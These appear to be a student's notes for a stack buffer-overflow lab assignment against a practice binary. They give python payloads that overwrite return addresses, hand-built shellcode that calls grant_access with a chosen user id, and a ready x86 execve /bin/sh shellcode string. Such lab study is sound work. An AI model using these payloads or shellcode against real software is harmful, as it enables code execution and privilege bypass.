 # Assignment 2

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## Step 1

```sh
objdump -d victim > source.dump
objdump -d victim -M intel > source2.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

`strncpy()` copies the string by specifying the number n of characters to copy
e.g., `strncpy(dest, src, n); dest[n] = '\0'`
If source string is longer than the destination string, the overflow characters are discarded automatically
You have to place the null character manually

## Step 2

First approach

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

Second approach

- argument passed to the grant_access, is saved in ebp-0x8
- so i put my user id inside ebp-0x8
- then set eip to the address of grant_access
- check out [step2.py](./step2.py)

## Step3

A\*12 + edx + AAAA + ebp + eip

```
strcpy
Breakpoint 9, 0x0804931f in password_prompt ()
#0 0x0804931f in password_prompt ()
#1 0x080492a2 in get_user_id ()
#2 0x00000000 in ?? ()

(gdb) x/16xw \$sp

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xffefffe0 0x080492a2 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xebp 0xeip 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

4 steps:

1. must set eip=0xffefffc4

2. pass arg
"\x68\xE8\x03\x00\x00"
push DWORD PTR 0x3e8

3. valid return point? set it after our code?! ebp=0xffefffe4

4. go to grant_access
"\x68\xA2\x92\x04\x08\xC3"
Disassembly: 6bit
0:  68 a2 92 04 08          push   0x80492a2
5:  c3                      ret

mov ebp,0xffefffd0 "\xBD\xD0\xFF\xEF\xFF" 5
mov_ebp_ffefffd0 = struct.pack("I", 0xBDD0FFEFFF)

push_3e8 = struct.pack("I", 0x68E8030000)

push_80492a2 = "\x68\xA2\x92\x04\x08" 5
push 0x80492a2


ret= \xC3 1
id= struct.pack("I", 0x3e8) 4
"\xBD\xD0\xFF\xEF\xFF\x68\xE8\x03\x00\x00\x68\xA2\x92\x04\x08\xC3"
16byte


for debuging # x/16wx 0xffefffc4
```

## Step 4

- Use NOPs and retired to estimated point/address.
- Sometimes it happens because of enviromental variables. We can remove them. `$env --ignore-environment ./victim (gdb) unset env`
- Maybe use relative address [eip-0x14]!!

## Step 5

Hijack Victim OS

## ASM

- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function.
- `lea` https://www.aldeid.com/wiki/X86-assembly/Instructions/lea
- NOP \x90
- INT3 \xCC breakpoint

## Endian

![Big-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/5/54/Big-Endian.svg/280px-Big-Endian.svg.png)
![Little-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ed/Little-Endian.svg/280px-Little-Endian.svg.png)

# Resources

- https://www.asciitohex.com/
- https://defuse.ca/online-x86-assembler.htm#disassembly
- https://github.com/z3tta/Exploit-Exercises-Protostar
- https://0xrick.github.io/binary-exploitation/bof6/
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- <http://shell-storm.org/>
- <http://shell-storm.org/shellcode/>
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- [To execute shell code, you can edit a function's contents directly](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)

## meaning-of-0x8rsp

Parentheses generally mean to dereference. 0x8(%rsp) means "get the location on the stack that is 8 bytes away from the stack pointer %rsp, and then take the value at that address."
It moves 0x131 into %eax, and then compares it to the data at that location. cmp sets the eflags register depending on that comparison (like the Zero Flag if the operands were equal, etc.)
To see what is at the address using GDB, type

(gdb) x/1dw 0x8(%esp)
This command 'x' examines memory.
1 means examine 1 of whatever unit is specified.
"d" means output in decimal notation (as opposed to hex). you might use "c" to get a char, or "x" to get a hex, or "s" for a string, or whatever.
"w" provides the unit, in this case a word, which is 4 bytes.
So this command looks at 4 bytes at the given address, 0x8(%rsp), and prints whatever is there in decimal format.
To learn more about using GDB to see how your memory is changing, see this document.

To read the memory at given addresses you should take a look at x. x/x $esp for hex x/d $esp for signed x/u $esp for unsigned etc. x uses the format syntax, you could also take a look at the current instruction via x/i $eip etc.

bt - backtrace: show stack functions and args
info frame - show stack start/end/args/locals pointers

(gdb)- `x/4xw $sp`
to print "four words (w ) of memory above the stack pointer (here, \$sp) in hexadecimal (x)". The quotation is slightly paraphrased
